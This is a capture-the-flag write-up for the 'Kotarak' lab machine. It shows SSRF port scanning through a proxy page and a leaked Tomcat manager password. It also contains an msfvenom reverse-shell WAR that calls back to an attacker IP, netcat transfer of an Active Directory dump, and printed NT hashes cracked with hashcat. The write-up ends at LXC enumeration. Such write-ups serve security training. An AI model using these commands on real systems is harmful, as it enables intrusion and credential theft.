## Overview

Kotarak is an Ubuntu 16.04 box running a custom website that acts as a "proxy" to display other websites. A username and password was exposed by using the custom website to load an internally hosted website that exposed a username and password. Those credentials allowed access to upload war file via the tomcat manager app to receive a reverse shell as user tomcat. Looking through the filesystem I found some files that were the result of a dump of Active Directory. Using libesedb and dsusers.py I was able to extract the hashes and crack them with hashcat. The password was used to switch to the atanas account which had read permissions on the root folder. The root folder contained a file called flag.txt instead of the usual root.txt file. Some additional enumeration revealed that the target was running an lxd container. A log file in /root called app.log shows that the lxd container was configured with a cron job that checked for a non-existent file on the target system. From there I exploited a vulnerability in wget < 1.18 to get a root shell on the lxd container.

## Enumeration

**Software**

* Ubuntu 16.04.1 LTS
* Apache 2.4.18
* Apache Tomcat 8.5.5
* PHP 5.6.31
* lxc 2.0.8

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.55 -oN /mnt/data/boxes/kotarak/_full_tcp_nmap.txt
```
* 22/tcp
* 8009/tcp
* 8080/tcp
* 60000/tcp

**Gobuster**

```
gobuster dir -u http://10.10.10.55:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 35 -x php,html
```

* /docs
* /examples
* /manager

```
gobuster dir -u http://10.10.10.55:60000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 35 -x php,html
```

* /index.php
* /info.php
* /url.php

http://10.10.10.55:60000/info.php
http://10.10.10.55:60000/url.php?path=http://localhost:888
http://10.10.10.55:60000/url.php?nav=
http://10.10.10.55:60000/url.php?nav=&column=name&order=desc
http://10.10.10.55:60000/url.php?doc=

**Nikto Scan**

```
nikto -h http://10.10.10.55:8080
```

* /manager/html: Default Tomcat Manager / Host Manager interface found
* /host-manager/html: Default Tomcat Manager / Host Manager interface found
* /manager/status: Default Tomcat Server Status interface found



## Steps (user)

I started by browsing to http://10.10.10.55:8080 which gave me an HTTP Status 404 message. The Nikto scan results showed some pages related to Tomcat, but more interestingly, manager/html which I know is the URL of the Tomcat Web Application Manager and allows uploading of war files. I plugged in the URL into my browser but was prompted for a username and password which I didn't have so I moved on.



Next I browsed to http://10.10.10.55:60000 which displayed a "Welcome to Kotarak Web hosting Private Server" message. 



Below the welcome message there was another line of text: "Use this private web browser to surf the web anonymously. Please do not abuse it!". Under that was a text field and submit button.  I opened up burp so I could see what happens when I put some text into the text field and hit submit.



It looked like the purpose of this application was to display other web pages which made me think to check for RFI. I created an http server and hosted a couple php files but the target wasn't calling back. I later found out that this was because the box was using curl to load the remote pages so the commands were executing against my box not on the target.

Next I tried to see if I could view files using the file URI scheme but was shown a "try harder" message.

> The [file URI scheme](https://en.wikipedia.org/wiki/File_URI_scheme) is a URI scheme defined in RFC 8089, typically used to retrieve files from within one’s own computer. 



I tried loading a website that was hosted on the target box and received a 200 response.



In order to see what else was listening on internal ports I wrote a quick python script that uses the requests module to check if the host is listening on a range of ports, in this case I specified them all: 1 - 65535. I was able to determine if a port was listening by looking at the length of the response and print that to the screen.

```python
import requests

url = "http://10.10.10.55:60000/url.php?path=localhost:"

for x in range(1, 65535):
    r = requests.get(url+str(x))
    length = (len(r.text))
    if length > 2:
        print("[*] Response received on port: " +str(x))
```

The script showed that ports 22,90,110,200,320,888,3306, and 8080 were open. The script hadn't finished yet but it was going to take quite a while so I just let it run and pushed forward.



Browsing through the results of the website scan I came across localhost:888 which was a simple file viewer page



I clicked on the backup link but the page was blank. I realized that it wasn't including localhost:888 after being redirected so I updated it to changed the URL to view the backup file and added ?doc=backup. Viewing thes source shows a username and password

```
http://10.10.10.55:60000/url.php?path=localhost:888?doc=backup
```



```
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
    <user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>
```

Now that I had a username and password, I went back to http://10.10.10.55:8080/manager/html and tried **admin:3@g01PdhB!** and it worked.

I created a reverse shell selecting a java payload and output the file to rshell.war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=4200 -f war > rshell.war
```

I then uploaded rshell.war via the Tomcat Web Application Manager and received shell as user 'tomcat'



I found an interesting folder called pentest_data when looking through tomcat's home folder. The folder contained an active directory dump that looked like it was generated by Metasploit's psexec_ntdsgrab module. I transferred them to my machine via netcat.

> Receiver : nc -l -p 1234 > out.file / Sender : nc -w 3 [destination] 1234 < out.file

```
nc -w 3 10.10.14.5 4201 < 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
nc -l -p 4201 > ntds.dit
nc -w 3 10.10.14.5 4201 < 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
nc -l -p 4201 > ntds.bin
```



Now that I had the files I could work on extracting the hashes. This required a few steps which I referenced from ropnop's blog https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/

First I needed libesedb which is a tool for parsing the ESE (Extensible Storage Engine) database where Active Directory data is stored. I downloaded the latest tarball and extracted it
 ```
wget https://github.com/libyal/libesedb/releases/download/20200418/libesedb-experimental-20200418.tar.gz
tar xf libesedb-experimental-20200418.tar.gz
 ```

I installed the necessary build tools
```
apt install autoconf automake autopoint libtool pkg-config
```

And then ran configure make and install on esedb
```
./configure
 make
 make install
 ldconfig
```

esedbexport was run against ntds.dit which exports the .dit database into parseable tables
```
esedbexport -m tables ntds.dit
```

Next I needed dsusers.py so I installed ntdsextract.
```
git clone https://github.com/csababarta/ntdsxtract.git
cd ntdsxtract/
python setup.py build && python setup.py install
```

The ntdsxtract tool dsusers.py is used to dump user information and NT/LM password hashes from an extracted table. It requires three things: the datatable and link_table which the esedbexport commands provided and the system hive (bin file).

The syntax is:

```
dsusers.py <datatable> <link_table> <output_dir> --syshive <systemhive> --passwordhashes <format options>
```

I plugged in the paths to the required files and set the pwdformat to ocl which formats the output for hashcat. I piped the output to the tee command which displays the output on screen as well as saves to a file, all_user_info.txt in this case.

```
~/tools/ntdsxtract/dsusers.py ntds.dit.export/datatable.3 ntds.dit.export/link_table.5 output --syshive ntds.bin --passwordhashes --pwdformat ocl --ntoutfile ntout.txt --lmoutfile lmout.txt | tee all_user_info.txt
```



Full Output

```
[+] Started at: Mon, 18 May 2020 22:50:43 UTC                                                                                                                                                 
[+] Started with options:                                                                                                                                                                     
        [-] Extracting password hashes                                                                                                                                                        
        [-] Hash output format: ocl                                                                                                                                                           
        [-] NT hash output filename: ntout.txt                                                                                                                                                
        [-] LM hash output filename: lmout.txt                                                                                                                                                
[+] Initialising engine...                                                                                                                                                                    
[+] Loading saved map files (Stage 1)...                                                                                                                                                      
[+] Loading saved map files (Stage 2)...
List of users:                                                                                                                                                                      [45/18951]
==============                                                                                                                                                                                
Record ID:            3562                                                                                                                                                                    
User name:            Administrator                                                                                                                                                           
User principal name:                                                                                                                                                                          
SAM Account name:     Administrator                                                                                                                                                           
SAM Account type:     SAM_NORMAL_USER_ACCOUNT                                                                                                                                                 
GUID:                 5f9433a8-7363-4f5e-8d3c-4a4dacca157c                                                                                                                                    
SID:                  S-1-5-21-1036816736-4081296861-1938768537-500                                                                                                                           
When created:         2016-07-19 23:33:08+00:00                                                                                                                                               
When changed:         2017-07-21 14:39:07+00:00                                                                                                                                               
Account expires:      Never                                                                                                                                                                   
Password last set:    2017-07-21 14:39:07.354826+00:00                                                                                                                                        
Last logon:           2017-07-21 14:48:56.134512+00:00                                                                                                                                        
Last logon timestamp: 2017-07-21 13:52:48.669583+00:00                                                                                                                                        
Bad password time     2017-07-21 13:52:19.684732+00:00                                                                                                                                        
Logon count:          63                                                                                                                                                                      
Bad password count:   0                                                                                                                                                                       
Dial-In access perm:  Controlled by policy                                                                                                                                                    
User Account Control:                                                                                                                                                                         
        NORMAL_ACCOUNT                                                                                                                                                                        
Ancestors:                                                                                                                                                                                    
        $ROOT_OBJECT$, local, mrb3n, Users, Administrator                                                                                                                                     
Password hashes:                                                                                                                                                                              
        Administrator:e64fe0f24ba2489c05e64354d74ebd11                                                                                                                                        
                                                                                                                                                                                              
Record ID:            3563                                                                                                                                                                    
User name:            Guest                                                                                                                                                                   
User principal name:                                                                                                                                                                          
SAM Account name:     Guest                                                                                                                                                                   
SAM Account type:     SAM_NORMAL_USER_ACCOUNT                                                                                                                                                 
GUID:                 2bf50d7e-79e6-4aab-a81c-157e7a1b6f44                                                                                                                                    
SID:                  S-1-5-21-1036816736-4081296861-1938768537-501                                                                                                                           
When created:         2016-07-19 23:33:08+00:00                                                                                                                                               
When changed:         2016-07-19 23:33:08+00:00                                                                                                                                               
Account expires:      Never                                                                                                                                                                   
Password last set:    Never                                                                                                                                                                   
Last logon:           Never                                                                                                                                                                   
Last logon timestamp: Never                                                                                                                                                                   
Bad password time     2016-11-25 22:46:55.531557+00:00                                                                                                                                        
Logon count:          0                                                                                                                                                                       
Bad password count:   1                                                                                                                                                                       
Dial-In access perm:  Controlled by policy                                                                                                                                                    
User Account Control:                                                                                                                                                                         
        ACCOUNTDISABLE                                                                                                                                                                        
        PWD_NOTREQD                                                                                                                                                                           
        NORMAL_ACCOUNT
        DONT_EXPIRE_PASSWORD
Ancestors:
        $ROOT_OBJECT$, local, mrb3n, Users, Guest
Password hashes:
Record ID:            3609
User name:            krbtgt
User principal name:  
SAM Account name:     krbtgt
SAM Account type:     SAM_NORMAL_USER_ACCOUNT
GUID:                 ce21ca0e-4f4d-49c9-9942-40b0d6ae913d
SID:                  S-1-5-21-1036816736-4081296861-1938768537-502
When created:         2016-07-19 23:34:47+00:00
When changed:         2017-07-21 13:57:55+00:00
Account expires:      Never
Password last set:    2017-07-21 13:57:55.522122+00:00
Last logon:           Never
Last logon timestamp: Never
Bad password time     Never
Logon count:          0
Bad password count:   0
Dial-In access perm:  Controlled by policy
User Account Control:
        ACCOUNTDISABLE
        NORMAL_ACCOUNT
Ancestors:
        $ROOT_OBJECT$, local, mrb3n, Users, krbtgt
Password hashes:
        krbtgt:ca1ccefcb525db49828fbb9d68298eee

Record ID:            3776
User name:            atanas
User principal name:  
SAM Account name:     atanas
SAM Account type:     SAM_NORMAL_USER_ACCOUNT
GUID:                 fcf6f550-6d74-434e-a2c0-c6b1e688cb6e
SID:                  S-1-5-21-1036816736-4081296861-1938768537-1108
When created:         2017-07-21 14:00:11+00:00
When changed:         2017-07-21 14:14:31+00:00
Account expires:      Never
Password last set:    2017-07-21 14:00:11.179960+00:00
Last logon:           2017-07-21 14:15:27.213569+00:00
Last logon timestamp: 2017-07-21 14:14:31.615071+00:00
Bad password time     Never
Logon count:          2
Bad password count:   0
Dial-In access perm:  Controlled by policy
User Account Control:
        NORMAL_ACCOUNT
Ancestors:
        $ROOT_OBJECT$, local, mrb3n, Users, atanas
Password hashes:
        atanas:2b576acbe6bcfda7294d6bd18041b8fe
```

Reviewing ntout I confirmed that the hashes were there and proceeded to feed that into hashcat.



```
hashcat -m 1000 output/ntout.txt --username /usr/share/wordlists/rockyou.txt --force
```
Hashcat was able to crack 1 out of 3 passwords, the password it found was f16tomcat!



I was then able to create a full pty with python and su to user atanas with password f16tomcat!.

```
python -c 'import pty;pty.spawn("/bin/bash")'
su atanas
```




## Steps (root/system)

I copied LinEnum.py to the target directory and started a python http server

```
cp ~/tools/LinEnum/LinEnum.py le.py
python3 -m http.server 80
```
Wget was used download LinEnum to the target box

```
wget http://10.10.14.29/le.sh
```

Running and reviewing the linenum results showed that I could read the contents of root's home folder. 



The root folder showed a flag.txt file instead of the usual root.txt with the content "Getting closer! But what you are looking for can't be found here". 



Another interesting thing I found while reviewing LinEnum was the network configuration which is indicative of an LXC configuration. LXC is a container service for linux and LXD is an open source container management application. 

